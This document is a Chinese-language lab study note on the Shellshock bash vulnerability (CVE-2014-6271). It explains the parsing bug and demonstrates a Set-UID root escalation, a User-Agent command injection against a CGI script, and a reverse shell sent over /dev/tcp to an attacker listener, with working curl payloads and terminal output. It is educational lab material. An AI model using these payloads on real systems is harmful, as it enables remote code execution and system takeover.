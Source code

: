 # 第三章 Shellshock 攻击

shellshock 漏洞：CVE-2014-6271
利用了 bash 将环境变量转换为函数定义时犯的一个错误

shellshock 漏洞要求的两个条件

1. Bash 调用
2. 传入用户数据作为环境变量

## Shellshock 漏洞

bash version 4.1.0 -> bash_shellshock

获得含有 ShellShock 漏洞的 bash 4.1.0 版本：

`$wget http://labfile.oss.aliyuncs.com/bash-4.1.tar.gz`

```sh
yuan@ubuntu:~/Cap3-shellshock$ foo='() { echo "hello"; }; echo "extra";'
yuan@ubuntu:~/Cap3-shellshock$ echo $foo
() { echo "hello"; }; echo "extra";
yuan@ubuntu:~/Cap3-shellshock$ export foo
yuan@ubuntu:~/Cap3-shellshock$ bash_shellshock
extra
yuan@ubuntu:~/Cap3-shellshock$ echo $foo

yuan@ubuntu:~/Cap3-shellshock$ declare -f foo
foo ()
{
    echo "hello"
}
```

bash 源代码中的错误 variables.c

`void initialize_shell_variables(env, privmode)`

bash 检查环境变量是否以`() {`开头，一旦发现这样的字符串，Bash 将用'='替换空格使该环境变量变成一个函数定义，
然后，bash 调用`parse_and_execute()`函数解析该函数定义。然而，`parse_and_execute()`的功能太强大，
他不仅仅解析函数定义，还解析和运行其他 shell 指令。如果该字符串包含用分号隔开的多个指令，
`parse_and_execute()`会解析和运行每一条

## 利用 shellshock 攻击 Set-UID 程序

_有漏洞的程序_:vul.c

```C
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char const *argv[])
{
	setuid(geteuid());
	system("/bin/ls -l");
	return 0;
}
```

    	只有真实用户ID和有效用户ID相同时，Bash才会从环境变量中获得函数定义

`$ sudo ln -sf /bin/bash_shellshock /bin/sh`

```sh
yuan@ubuntu:~/Cap3-shellshock$ gcc -o vul.out vul.c
yuan@ubuntu:~/Cap3-shellshock$ sudo chown root vul.out
yuan@ubuntu:~/Cap3-shellshock$ sudo chmod 4755 vul.out
yuan@ubuntu:~/Cap3-shellshock$ export foo='() { echo hello; }; /bin/sh'
yuan@ubuntu:~/Cap3-shellshock$ ./vul.out
sh-4.1# id
uid=0(root) gid=1000(yuan) 组=1000(yuan),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
```

## 利用 shellshock 攻击 CGI 程序

CGI (coomon gateway interface, 通用网关接口) 是被 Web 服务器生成动态网页的可执行程序， 许多 cgi 程序是 shell 脚本

### 1 环境准备

启动 apache2 服务， 将 test.cgi 放到/usr/lib/cgi-bin/文件夹内.
将 test.cgi 改成 755 可执行权限。

test.cgi

```bash
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo
echo
echo "Hello"
```

用 kali linux 访问

```sh
kali@kali:~Desktop$ curl http://192.168.43.240/cgi-bin/test.cgi

Hello
kali@kali:~Desktop$
```

### web 服务器调用 CGI 程序

`curl -v`会打印出 HTTP 请求和服务器响应

通过远程访问 test2.cgi 可以知道，Apache 服务器从 HTTP 请求头中获得 User-Agent 信息，并将他赋值给一个*HTTP_USER_AGENT*的环境变量
当 Apache 服务创建一个子进程来执行 CGI 程序时，会传递该变量以及一些其他的环境变量给 CGI 程序

```sh
yuan@ubuntu:~$ curl -v http://192.168.43.240/cgi-bin/test.cgi
*   Trying 192.168.43.240...
* TCP_NODELAY set
* Connected to 192.168.43.240 (192.168.43.240) port 80 (#0)
> GET /cgi-bin/test.cgi HTTP/1.1
> Host: 192.168.43.240
> User-Agent: curl/7.58.0	      	    <****注意这里
> Accept: */*
>
< HTTP/1.1 200 OK
< Date: Sat, 19 Dec 2020 07:29:39 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< Content-Type: text/plain
<
** Enviroment Variables **
HTTP_HOST=192.168.43.240
HTTP_USER_AGENT=curl/7.58.0            <****注意这里
HTTP_ACCEPT=*/*
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

...

```

利用*User-Agent*实现攻击

```sh
kali@kali:$ curl -A "() { ;}; echo Content-Type: text/plain; /bin/ls -l" http://192.168.43.240/cgi-bin/test.cgi
```

> /bin/ls -l 可换成任意希望执行的指令

### 创建反向 shell

```sh
Attacker:$ nc -l -p 9090 -v
Attacker:$ curl -A "() { ;}; echo Content-Type: text/plain; echo;
echo; /bin/bash -i > /dev/tcp/192.168.43.230/9090 0<&1 2>&1" http://192.168.43.240/cgi-bin/test.cgi

```

创建反向 shell 指令：

```sh
Server:$ /bin/bash -i > /dev/tcp/192.168.43.230/9090 0<&1 2>&1
```

    -i shell的可交互模式
    >/dev/tcp/_ip_/_port_ shell输出重定向至TCP连接，stdout的文件描述符是1
    0<&1 0:stdin 将标准输出设备也用作输入 TCP是一个双向连接
    2>&1 2:stderr

## 针对 PHP 的远程攻击

出发 shellshock 漏洞需要满足的条件：

1. Bash 调用
   PHP 中的 system()函数，可以用它来执行外部命令
2. 传入用户数据作为环境变量
   在 Apache 服务器中，PHP 可以通过三种方式运行

   - Apache 组件
   - CGI (以 CGI 运行 php 可以满足)
   - FastCGI (不能满足条件)

